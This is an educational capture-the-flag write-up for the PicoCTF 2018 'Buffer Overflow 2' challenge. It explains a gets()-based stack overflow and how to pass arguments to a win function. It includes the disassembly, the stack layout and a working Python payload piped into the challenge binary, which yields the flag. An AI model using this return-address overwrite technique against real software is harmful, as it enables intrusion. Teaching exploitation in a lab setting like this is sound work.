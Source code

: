 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 2
description: Now that you've got a handle on buffer-overflows, can you figure out how to use your control of the stack to pass arguments into a function?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 2

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

`vuln()` is nearly identical to the last ['buffer-overflow']({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-1.md %}) challenge, so flip back to it now if you need a refresher.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

## Strategy

There still is a `win` function, but this time around you can't just call it, you have to also ensure that the first argument is `0xDEADBEEF` and the second argument is `0xDEADC0DE` or it won't print the flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

However, overall our strategy is exactly the same: smash the stack, put the address of `win` into the return address, put whatever arguments `win` needs in the right spots, and grab the flag.

```
$ checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

$ nm vuln | grep win
080485cb T win
```
{:.contains-term}

The code for the function `win()` begins at the address `0x080485cb` (no PIE, no ASLR). When you are prepared to tackle the challenge, cd to `/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa` on the shell server.

## Background Info

First off, how much space is available for our buffer?

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x78
sub    esp,0xc
lea    eax,[ebp-0x6c]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
sub    esp,0xc
lea    eax,[ebp-0x6c]
push   eax
call   8048460 <puts@plt>
add    esp,0x10
nop
leave
ret
```

As we can see here, the buffer begins at `ebp-0x6c`, which means that there is 100 bytes of buffer, plus 8 bytes of padding. We already know that after the padding is the preserved value of `ebp`, and following that is the return address of our function. Therefor, the stack for `vuln` looks something like this:

| lower addresses | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | --- |
| `buf[100]` | &lt; `padding[8]` &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

The question becomes, how do we pass `0xDEADBEEF` and `0xDEADC0DE` as arguments to the function `win`?

Recall, if you were calling the function `win` from normal code, you would use assembly like this:

```nasm
push 0xDEADCODE ; arugments "pushed" last to first
push 0xDEADBEEF 

call win ; IMPLICIT "push next_instruction", which pushes the address of the next instruction onto the stack

next_instruction:
  ; ...
```

Which means that `0xDEADCODE` gets pushed first, then `0xDEADBEEF`, then the return address. Since the stack grows "up", that means in memory the return address is first (lowest address), followed by `0xDEADBEEF`, followed by `0xDEADC0DE`.

| lower addresses | &rArr; | higher addresses |
| --- | :---: | --- |
| &lt;*return address*&gt; | `0xDEADBEEF` | `0xDEADC0DE` |

Which is *exactly* what the state of the stack should be when the `win` function gets called. In this case &lt;*return address*&gt; is the address that gets called **after** `win` executes (ie: after the flag is printed, since stdout is once again set to non-buffering). Since you already have the flag, you can set it to anything you like (causing a segfault when `win` returns).

## Exploitation

Putting it all together, the write to the buffer should look like this:

1. 108 bytes of don't care
2. 4 bytes overwriting preserved `ebp` (also don't care)
3. 4 bytes *return address* for vuln (`0x080485cb` == `&win`)
4. 4 bytes *return address* for win (`0x55555555`)
5. 4 bytes arg1 (`0xDEADBEEF`)
6. 4 bytes arg2 (`0xDEADC0DE`)

Or, in python (don't forget to write your multi-byte values in little-endian form):

```python
print("U"*108 + "U"*4 + "\xcb\x85\x04\x08" + "\x55\x55\x55\x55" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")
```

Let's try it out at `/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa` on the shell server:

```
/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa$ python -c 'print("U"*108 + "U"*4 + "\xcb\x85\x04\x08" + "\x55\x55\x55\x55" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")' | ./vuln
Please enter your string:
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU˅UUUUﾭ�����
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Great Job! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.